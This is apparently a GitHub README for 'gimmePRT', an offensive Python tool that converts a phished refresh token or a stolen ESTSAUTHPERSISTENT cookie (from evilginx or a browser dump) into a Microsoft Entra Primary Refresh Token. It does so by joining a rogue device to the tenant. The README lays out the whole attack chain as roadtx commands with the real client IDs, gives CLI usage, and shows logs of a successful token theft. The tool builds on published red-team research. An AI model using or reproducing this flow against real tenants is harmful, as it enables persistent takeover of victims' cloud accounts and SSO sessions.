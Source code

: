 # gimmePRT

This code is based on the research done by [Dirk-jan](https://x.com/_dirkjan) via this [blog post](https://dirkjanm.io/phishing-for-microsoft-entra-primary-refresh-tokens/). The code heavily relies on the [ROADtools](https://github.com/dirkjanm/ROADtools) library and much of the functionality is taken directly from [roadtx](https://github.com/dirkjanm/ROADtools/tree/master/roadtx).  Credit to [kiwids](https://x.com/mhskai2017) for his original automation [script](https://github.com/kiwids0220/deviceCode2WinHello) linked in Dirk-jan's blog.  

The idea of this tool is to create a single point of entry for automagically getting a useable PRT using ROADlib. An example attack flow using roadtx that this is aiming to replicate would look like:
```
1a. SquarePhish/Device code with the following details:

    client_id: 29d9ed98-a469-4536-ade2-f981bc1d605e (Microsoft Authentication Broker)
    resource:  https://enrollment.manage.microsoft.com/

1b. If you have a ESTSAUTHPERSISTENT cookie from evilginx/browser dump,
    replicate the above:

    $ roadtx interactiveauth -c 29d9ed98-a469-4536-ade2-f981bc1d605e \
                             -r https://enrollment.manage.microsoft.com/ \
                             -ru https://login.microsoftonline.com/applebroker/msauth \
                             --estscookie <ESTSAUTHPERSISTENT>

----------

2. Once you have the refresh token, request a new access token with the correct resource:

   client_id: 29d9ed98-a469-4536-ade2-f981bc1d605e (Microsoft Authentication Broker)
   resource:  urn:ms-drs:enterpriseregistration.windows.net

   $ roadtx gettokens --refresh-token file \
                      -c 29d9ed98-a469-4536-ade2-f981bc1d605e \
                      -r drs

3. Use `roadtx` (ROADTools) to join/register a device

   $ roadtx device -a join -n dcflow

4. With the newly joined device, request a PRT

   $ roadtx prt --refresh-token <TOKEN> \
                -c dcflow.pem \
                -k dcflow.key

5. Plug the PRT into the browser to initiate the SSO flow

   cookie_name:  `x-ms-RefreshTokenCredential`
   cookie_value: `<PRT_TOKEN>`

6. If needed, expand the permissions of the PRT token

   $ roadtx prtauth -c msteams -r msgraph
```

## Usage

```
usage: gimmePRT.py [-h] [--device-name DEVICE_NAME] [--windows-version WINDOWS_VERSION]
                   [--debug] {refresh,cookie} ...

-*- GIMME PRT -*-

positional arguments:
  {refresh,cookie}
    refresh             Convert refresh token to PRT
    cookie              Convert Microsoft ESTS cookie to PRT

options:
  -h, --help            show this help message and exit

  --device-name DEVICE_NAME
                        device name when joining (default: DESKTOP-XXXXXXXX)

  --windows-version WINDOWS_VERSION
                        windows versions for the joined device (default: 10.0.19041.928)

  --debug               enable debugging
```

```
usage: gimmePRT.py cookie [-h] --estsauth ESTSAUTH

options:
  -h, --help           show this help message and exit

  --estsauth ESTSAUTH  ESTSAUTHPERSISTENT cookie from evilginx/browser dump
```

```
usage: gimmePRT.py refresh [-h] -t TOKEN

options:
  -h, --help            show this help message and exit

  -t TOKEN, --token TOKEN
                        refresh token from SquarePhish/device code flow
```

### Requirements

```sh
$ pip3 install roadtools roadtx colorama

# geckodriver is expected in the current path, below is an example download
$ wget https://github.com/mozilla/geckodriver/releases/download/v0.33.0/geckodriver-v0.33.0-linux-aarch64.tar.gz && \
  tar -xvf geckodriver-v0.33.0-linux-aarch64.tar.gz
```

### Example

```
❯ python3 -i gimmePRT.py cookie --estsauth "0.AWXXXXXXXXXXXXX..."

[2024-07-05 03:26:37,539] info | Converting ESTSAUTHPERSISTENT cookie to a useable Refresh Token
[2024-07-05 03:26:52,454] info | Successfully converted cookie to refresh token
[2024-07-05 03:26:54,515] info | Swapping refresh token to the correct resource URI
[2024-07-05 03:26:56,304] info | Successfully swapped token resource URI
[2024-07-05 03:26:57,099] info | Registering and joining device to the domain
    Saving private key to device.key
    Registering device
    Device ID: XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
    Saved device certificate to device.pem
[2024-07-05 03:27:02,331] info | Successfully joined device
[2024-07-05 03:27:10,671] info | Obtained PRT:
    0.AWXXXXXXXXXXXXX...
[2024-07-05 03:27:10,671] info | Obtained session key: XXXXXXXX...
    Saved PRT to prt.txt
    Device was deleted in Azure AD
```

